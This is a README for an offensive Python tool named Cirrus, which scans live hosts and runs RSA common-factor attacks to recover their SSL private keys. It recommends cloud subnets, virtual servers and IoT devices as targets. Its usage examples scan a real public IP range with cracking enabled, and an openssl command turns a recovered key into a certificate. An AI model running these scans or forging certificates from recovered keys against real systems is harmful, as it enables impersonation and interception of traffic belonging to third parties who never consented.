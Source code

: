# Cirrus

## Introduction
Cirrus is an easy-to-use python script that launches RSA common factor attacks on live hosts. If a pair of hosts are found to contain a common factor in their moduli, two SSL private keys are created in the current directory in PEM format. These keys can be converted to working SSL certificates using OpenSSL:

```
openssl req -key hacked.pem -new -x509 -days 365 -out certificate.crt -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US'
```
Ideal targets for Cirrus include:

* Subnets belonging to cloud hosting providers who clone the same VM over and over again.
* Subnets of virtual servers in general.
* IoT devices.

There is a nonzero probability that at least two targets in a large group of hosts falling into any of the above categories share a common RSA key factor. 

## Usage
Targets are specified to Cirrus by either providing an IP range or by providing a list of hosts to scan. 

```
usage: Cirrus.py [-h] [-t THREADS] [-ip [IPRANGE [IPRANGE ...]]] [-l LISTNAME]
                 [-lk LOADLIST] [-sk SAVELIST] [-c] [-to TIMEOUT]

optional arguments:
  -h, --help            show this help message and exit
  -t THREADS            number of threads to scan with
  -ip [IPRANGE [IPRANGE ...]]
                        IP range to scan, specify with [from] [to]
  -l LISTNAME           list of hosts to scan
  -lk LOADLIST          load list of saved keys from file
  -sk SAVELIST          save list of saved keys to file
  -c                    crack loaded RSA keys
  -to TIMEOUT           timeout in seconds before terminating connections
```
```
python Cirrus.py -c -to 2 -ip 204.79.197.200 204.79.198.250 -to 2 -t 10
```
```
python Cirrus.py -l targets.txt -c
```
If you are interested in launching common factor attacks against absurdly large swaths of the Internet, check out the [EFF SSL Observatory](https://www.eff.org/observatory).
